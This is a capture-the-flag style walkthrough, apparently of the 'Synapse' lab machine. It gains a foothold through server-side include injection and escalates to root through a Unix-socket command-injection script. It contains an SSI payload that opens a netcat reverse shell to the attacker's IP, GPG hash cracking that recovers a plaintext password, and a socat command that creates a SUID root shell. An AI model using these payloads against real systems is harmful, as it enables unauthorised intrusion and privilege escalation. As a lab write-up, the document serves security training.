 # Synapse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:30 +08
Nmap scan report for 192.168.201.149
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### SMB + FTP Rabbit Holes

FTP doesn't accept anonymous logins, and SMB with no credentials doesn't show us any share that we can access:

```
$ smbmap -H 192.168.201.149
[+] IP: 192.168.201.149:445     Name: 192.168.201.149                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It is thus likely that there's a web exploit, so we can start proxying traffic through Burpsuite.&#x20;

### Web Enum --> SSI Injection

Port 80 was running a custom dashboard:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

The File Manager was running elFinder, but we cannot access it since we need administrative access:

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I checked the user tab, and found that the user was called `mindsflee`:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

All of options were under construction, except for the one on the right most.&#x20;

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

From my enumeration, this seems to be the most vulnerable point. I attempted to upload some PHP webshells, but it seems only images are allowed.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

There was one weird part, which was the `url=inspect.shtml` portion, since I had never seen that before. Searching for `shtml` gives us results for Server Side Includes (SSI).

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Hacktricks has done a page on SSI Injection that we could try.

{% embed url="https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection" %}

We can try some of the payloads:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we follow the redirect, we get this:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We now have RCE on the machine, and we can easily get a reverse shell using this:

```
<!--#exec cmd='nc -c bash 192.168.45.189 21' -->
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GPG Creds --> Mindsflee Shell

Within the `/home/mindsflee` directory, there are some files of interest:

```
www-data@synapse:/home/mindsflee$ ls -la
total 32
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 .
drwxr-xr-x 3 root      root      4096 Jun 10  2021 ..
lrwxrwxrwx 1 root      root         9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mindsflee mindsflee  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 mindsflee mindsflee 3526 Jun 10  2021 .bashrc
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .gnupg
-rw-r--r-- 1 mindsflee mindsflee  807 Jun 10  2021 .profile
-rw-r--r-- 1 mindsflee mindsflee   33 Jul 15 00:29 local.txt
-rw-r--r-- 1 root      root      2058 Jan  3  2021 synapse_commander.py

www-data@synapse:/home/mindsflee/.gnupg$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 ..
-rw-r--r-- 1 mindsflee mindsflee 5180 Jun 14  2021 creds.priv
-rw-r--r-- 1 mindsflee mindsflee  124 Jun 14  2021 creds.txt.gpg
```

The `.gnupg` file contains some creds. Download these files back to our machine, and we can then try to decrypt it. Using `gpg`, we can attempt to import this key but it requires a passphrase.&#x20;

We can crack this using `gpg2john` and `john`:

```
$ gpg2john creds.priv > gpg_hash
$ john --show gpg_hash                                     
mindsflee:qwertyuiop:::mindsflee::creds.priv
```

Using this, we can then import the key using `gpg` and decrypt the file:

```
$ gpg --import creds.priv       
gpg: key 8ECE3C203E92BE79: "mindsflee" not changed
gpg: key 8ECE3C203E92BE79: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1

$ gpg --output decrypted --decrypt creds.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

$ cat decrypted                           
user: mindsflee
password: m1ndsfl33w1llc4tchy0u?
```

Using this password, we can `su` to `mindsflee`.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges --> Socket Injection

The `mindsflee` user can use `sudo` with the Python script we found:

```
[sudo] password for mindsflee: 
Matching Defaults entries for mindsflee on synapse:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mindsflee may run the following commands on synapse:
    (root) /usr/bin/python /home/mindsflee/synapse_commander.py
```

Here's the content of the script:

```python
import socket
import os, os.path, sys
import time
from collections import deque    





print("""\
  
 _____ __ __ _____ _____ _____ _____ _____    _____ _____ _____ _____ _____ _____ ____  _____ _____ 
|   __|  |  |   | |  _  |  _  |   __|   __|  |     |     |     |     |  _  |   | |    \|   __| __  |
|__   |_   _| | | |     |   __|__   |   __|  |   --|  |  | | | | | | |     | | | |  |  |   __|    -|
|_____| |_| |_|___|__|__|__|  |_____|_____|  |_____|_____|_|_|_|_|_|_|__|__|_|___|____/|_____|__|__|


 
  """)

print("Focus your approach with a system designed for single network port access.")
print ("With Synapse Commander, a single arm delivers three multi-jointed instruments")
print("and a fully wristed 3DHD camera for visibility and control in narrow surgical spaces.")
print("Streamlined setup, multiple control modes and a dynamic statistics display are included")
print
print("1 - Access to ARM management")
print("2 - Enable 3DHD camera")
print("3 - Settings")
print("4 - Reboot the system")
print
instruction = raw_input("Synapse Instruction:")

if instruction == "1":
    
    print ("\nARM MANAGEMENT ENABLED")
    os.system("touch 2343432445467676")
elif instruction == "2":
    
    print ("\n3DHD CAMERA ENABLED")
    os.system("touch 5344225453244546")
elif instruction == "3":
    
    print ("\nACCESS TO SETTINGS CONFIGURATION")
    os.system("touch 77756563456244546")
elif instruction == "4":
    
    print ("\nSYSTEM REBOOTED")
    os.execl(sys.executable, sys.executable, *sys.argv)

else:
    os.execl(sys.executable, sys.executable, *sys.argv)



if os.path.exists("/tmp/synapse_commander.s"):
  os.remove("/tmp/synapse_commander.s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/synapse_commander.s")
os.system("chmod o+w /tmp/synapse_commander.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

This program seems to open a Socket as `root` using the configuration of `synapse_commander.s` after we input any number from 1-3, since option 4 and all others would just re-run the script.&#x20;

Again, Hacktricks has a page for this:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection" %}

In one SSH session, run the Python script and input '1'. In another SSH session, run this command:

{% code overflow="wrap" %}
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/synapse_commander.s
```
{% endcode %}

When we enter that command, the script starts waiting for data to be sent in, which it passes to `os.system(datagram)`. This would result in RCE as `root`:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can then easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
